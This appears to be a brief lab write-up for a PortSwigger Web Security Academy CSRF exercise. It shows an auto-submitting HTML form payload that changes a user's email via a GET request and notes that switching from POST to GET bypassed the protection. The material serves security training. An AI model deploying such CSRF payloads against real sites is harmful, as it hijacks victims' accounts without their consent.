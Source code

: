 # CSRF Vulnerability


![****](/Portswigger-WebSecurity/CSRF/Screenshots/cssrf2.PNG)

## Let generate some Payloads!

```php
<form method="GET" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- We change the request method from Post to **Get** and it worked!